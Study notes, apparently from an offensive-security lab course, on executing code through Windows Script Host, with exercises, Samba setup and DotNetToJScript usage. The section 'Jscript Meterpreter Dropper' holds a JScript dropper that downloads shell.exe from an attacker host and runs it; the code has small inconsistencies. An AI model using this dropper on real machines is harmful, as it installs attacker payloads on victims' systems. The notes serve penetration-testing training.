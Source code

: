 # chapter 4 client side code execution with windows script host

Jscript is a dialect of JavaScript developed and owned by Microsoft that is used in Internet 
Explorer. It can also be executed outside the browser through the Windows Script Host,
197 which 
can execute scripts in a variety of languages

in order to check execution we can see default application by file type.

### Execution of jscript on windows

Js script can be directly executed onwindows thats why they are important

As mentioned previously, executing Jscript outside the context of a web browser bypasses all 
security settings. This allows us to interact with the older ActiveX198 technology and the Windows 
Script Host engine itself. Let’s discuss what we can do with this combination.

As shown in the code in Listing 116, we can leverage ActiveX by invoking the ActiveXObject199
constructor by supplying the name of the object. We can then use WScript.Shell to interact with 
the Windows Script Host Shell to execute external Windows applications. For example, we can 
instantiate a Shell object named “shell” from the WScript.Shell class through the ActiveXObject
constructor to run cmd.exe through the Run command

Checking on windows 10 the extension  is jse

![](open_cmd.png)

### Exercises

1. Create a simple Jscript file that opens an application.

made at: open_application.jse

2. Look through the list of default applications related to file types. Are there any other 
interesting file types we could leverage?

- .msc
- .perl
- .VBE
- .vbs
- .WSF
- .WSH

3. The .vbs extension is also linked to the Windows Script Host format. Write a simple VBScript 
file to open an application

made at: open_chrome.vbs

### Jscript Meterpreter Dropper

creating a dropper to inject the payload into.

dropper.jse works but is detected as malicious.

```js
var url = "http://10.10.6.12/shell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();
if (Object.Status == 200)
{
 var Stream = WScript.CreateObject('ADODB.Stream');
 Stream.Open();
 Stream.Type = 1;
 Stream.Write(Object.ResponseBody);
 Stream.Position = 0;
 Stream.SaveToFile("met.exe", 2);
 Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("shell.exe");
```

### 4.1.2.1 Exercises
1. Replicate the Jscript file from this section.

done 
2. Modify the Jscript code to make it proxy-aware with the setProxy method. You can use the 
Squid proxy server installed on the Windows 10 development machine.

# Jscript and C#

Since there’s no known way to invoke the Win32 APIs directly from Jscript, we’ll instead embed a 
compiled C# assembly in the Jscript file and execute it. This will give us the same capabilities as 
PowerShell since we will have comparable access to the .NET framework. 

# introduction to visual studio

we need to connect our kali instance with window

install on kali

```
sudo apt install samba
sudo mv /etc/samba/smb.conf /etc/samba/smb.conf.old
sudo nano /etc/samba/smb.conf
```
add this in the conf file

```
[visualstudio]
path = /home/kali/data
browseable = yes
read only = no
```

we need to create a samba user that can access the share and then start when required.

```
sudo smbpasswd -a kali
```

starting the samba server

```
sudo systemctl start smbd
sudo systemctl start nmbd
```
make a shared folder and open up the permissions for visual studio

```
mkdir /home/kali/data
chmod -R 777 /home/kali/data
```

With everything set up, we’ll turn to our Windows 10 development machine. First, we’ll open the 
new share in File Explorer (\\192.168.119.120 in our case). When prompted, we’ll enter the 
username and password of the newly created SMB user and select the option to store the 
credentials.

Staring a simple helloworld application

select visual studio
create new project
language select C#
use console app(.Net framework)

opening the app we see

```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
namespace ConsoleApp1
{
 class Program
 {
 static void Main(string[] args)
 {  
    console.WriteLine("Hello world");
 }
 }
}
```

### 4.2.1.1 Exercises
1. Set up the Samba share on your Kali system as shown in this section.

![](samba.png)

   
2. Create a Visual Studio project and follow the steps to compile and execute the “Hello World” 
application.


```
Hello World!

C:\Users\HP\source\repos\JscriptHelloWorld\bin\Debug\net5.0\JscriptHelloWorld.exe (process 7148) exited with code 0.
To automatically close the console when debugging stops, enable Tools->Options->Debugging->Automatically close the console when debugging stops.
Press any key to close this window . . .

```

# Using DotNetToJsScript

downloading DotNetTojscript
using https://github.com/tyranid/DotNetToJScript


looking into the project using vs studio, we see that 
Jscript will eventually execute the content of the TestClass method, which is inside the TestClass
class. In this case, we are simply executing the MessageBox.Show220 method.

Notice that the Solution Explorer lists a second project (DotNetToJscript) that converts the 
assembly into a format that Jscript can execute.

after using relaese/build we find that we need DotNetToJscript.exe , NDesk.Options.dll and Exampleassembly.dll in order to rn the DotnetToJscript program.

we can use the script as -

DotNettoJScript.exe ExampleAssembly.dll --lanf=Jscript --ver=v4 -o demo.js.

![](./DotnetTojs.png)


using dotnettojs script we an execute any arbritary C# script as JSScript

### 4.2.2.1 Exercises
1. Set up the DotNetToJscript project, share it on the Samba share, and open it in Visual Studio.
2. Compile the default ExampleAssembly project and convert it into a Jscript file with 
DotNetToJscript.
3. Modify the TestClass.cs file to make it launch a command prompt instead of opening a 
MessageBox

```
 string command = "notepad.exe";
 Process.Start("cmd.exe", "/C" + command);
```

## using win32 api on C#

![](chash.png)

# shellcode runner in C#

notworking because of shellcode problem






